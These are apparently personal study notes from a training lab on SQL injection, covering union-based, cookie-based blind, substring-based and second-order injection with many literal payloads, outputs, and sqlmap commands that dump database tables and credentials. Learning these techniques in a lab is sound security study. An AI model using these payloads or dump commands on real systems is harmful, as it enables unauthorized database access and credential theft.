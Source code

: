 ***Check for everything we are supplying like username, password or even cookies***

Prompts us to enter a username

i/p : jeremy' OR 1=1#

we provide ' after jeremy to terminate the username then provide logical OR operator and write another query 1=1 which is a true statement so when the Query

Select Email From Users Where username="i/p" OR 1=1

it will always be true and we get entire DB
and we get all the user names 

Try :
i/p : jeremy' or 1=1 order by 3#
No error
i/p : jeremy' or 1=1 order by 4#
error

so there are 3 columns in that table

***When using union select, need to have same number of columns in both the tables that we are applying UNION on***

i/p : jeremy' and 1=2 union select 1,2,3 from information_schema.tables#

o/p : Username: 1 - Email: 3

**so parameter 1 and 3 are vulnerable**

i/p : jeremy' and 1=2 union select database(),2,user() from information_schema.tables#

o/p : Username: bb-labs - Email: bb-labs-user@172.19.0.4

so table_schema/database = bb-labs  and username = bb-labs-user@172.19.0.4

i/p :  jeremy' and 1=2 union select table_name,2,3 from information_schema.tables#

i/p : jeremy' and 1=2 union select table_name,2,3 from information_schema.tables where table_schema='bb-labs'#

![[sqli1.png]]

Table name = injection0x01

i/p : jeremy' and 1=2 union select column_name,2,3 from information_schema.columns where table_schema='bb-labs'#

![[sqli2.png]]


Interesting columns : username  ,  password

i/p : jeremy' and 1=2 union select username,2,password from injection0x01#


![[sqli3.png]]



---


### Blind SQL Injection


Post request, inspect it in burp suite


We get a session ID on successful login

i/p : sessionID' or 1=1#

still works

i/p : sessionID and 1=2#

dosent work

So SQL injection via HTTP header cookies


i/p : sessionID' or 1=1 order by 3#



**Order by 5 gives error so 4 columns**

i/p : sessionID' or 1=1 union select 1,2,3,4 from information_schema.tables#

***so it does validate the cookie and if given false SQL code it dosent validate the user but if given correct SQL code, it validates the user but dosent give us any tables***

***This is blind SQLi since the query dosent give us any data from the tables rather it only changes behaviour of the page***


##### Automated

Using Sqlmap

```sh
sqlmap -r req.txt --batch --level=2
```


```sh
sqlmap -r req.txt --batch --level=2 --dbs 
```

```sh
sqlmap -r req.txt --batch --level=2 -D 'peh-labs' --tables
```

```sh
sqlmap -r req.txt --batch --level=2 -D 'peh-labs' -T injection0x02 --columns
```


```sh
sqlmap -r req.txt --batch --level=2 -D 'peh-labs' -T injection0x02 --dump 
```


##### Manual

SQL substring : SUBSTRING(_string_, _start_, _length_)

i/p: ' and substring('a',1,1)='1'# if the first character of string provided in substring 'a' or not

i/p: ' and substring((select version()),1,1)='7'# put select version() in () because it has to resolve first version not 7, try 8

i/p: ' and substring((select version()),1,1)='8'#

and it is accepted so it is version 8.x.x

i/p: ' and substring((select password from injection0x02 where username='jessamy'),1,1)='a'#
i/p: ' and substring((select password from injection0x02 where username='jessamy'),1,1)='z'#

can do this uisng intruder or ffuf since we have to loop through all the characters

we got a match true for 'z'='Z' which is something to be looked carefully in SQL


---

### SQLi Lab Challenge

POST request data : pruduct : it is vulnerable to SQLi

i/p : ' and 1=1#   : works
i/p : ' and 1=2#   : dosent work

i/p : ' or 1=1#      : and we get all the items

It is verbose SQLi

**Order by 4 works, order by 5 gives error, so there are 4 columns**

i/p: senpai knife set' union select 1,2,3,4 from information_schema.tables#

**1, 2, 4  are vulnerable**

i/p : senpai knife set' union select 1,database(),3,4 from information_schema.tables#

table_schema/database = bb-labs

i/p : senpai knife set' union select 1,table_name,3,4 from information_schema.tables where table_schema='bb-labs'#

o/p : injection0x03_users

i/p : senpai knife set' union select 1,column_name,3,4 from information_schema.columns where table_schema='bb-labs'#

o/p : username, password

i/p : senpai knife set' union select 1,username,3,password from injection0x03_users#

OR

i/p : senpai knife set' union select 1,concat(username,password),3,4 from injection0x03_users#


username : takeshi   , password : onigirigadaisuki

![[sqli4.png]]


```sh
sqlmap -r req.txt -T injection0x03_users --batch --dump
```


---

### Second Order SQL Injection


Second Order Attacks : Carry out your attack normally and deliver the payload but it is not executed until later on

In lab we have an option to signup

Lets do 

username : ' or 1=1-- -    , password : test

Now login using these creds

![[secondOrderSqli.png]]


And we can see other users data

Here our input : ' or 1=1-- - isn't executed until we go to our login page


